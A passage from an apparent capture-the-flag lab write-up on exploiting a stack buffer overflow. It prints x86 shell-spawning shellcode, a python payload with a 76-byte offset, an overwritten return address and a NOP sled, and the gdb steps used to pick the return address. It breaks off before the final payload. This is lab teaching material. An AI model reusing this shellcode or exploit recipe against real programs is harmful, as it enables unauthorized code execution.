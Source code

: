 ![play around](/assets/images/THM/2020-08-14-plathora/21.png)

Now, we are able to play around with the return address.

#### Step 3: Putting the shellcode

We are going to use the following shellcode as a malicious payload we just talked about before.

```
\x31\xc0\x31\xdb\xb0\x06\xcd\x80\x53\x68/tty\x68/dev\x89\xe3\x31\xc9\x66\xb9\x12\x27\xb0\x05\xcd\x80\x31\xc0\x50\x68//sh\x68/bin\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80
```

But first, we need to find a proper location to put our shellcode. Normally, people put the shellcode inside the buffer. The problem is, the buffer declared is rather small (around 64 bytes) which is the result of a lower chance of getting the shell. In this special case, I put the shellcode outside the buffer. To perform this step, we are going to find a good location by drowning lots of NOP operation or '\x90'.

```
$ python -c "print('A'*76 + '\xaa\xdd\xff\xff' + '\x90'*100)" > /home/zayotic/nop.in
```

After that run with the payload in gdb mode. Then, check for the stack with the following command.

```
gdb$ x/100x $exp-200
```

![shell location](/assets/images/THM/2020-08-14-plathora/22.png)

The red highlighted location serves a better spot for the return address to execute our shellcode. For this walkthrough, I'm going to use address 0xffffd738.

#### Step 4: Moment of truth

After getting all the required information: the EIP offset and the return address to execute the shellcode, time to draft the final payload and run with the program.
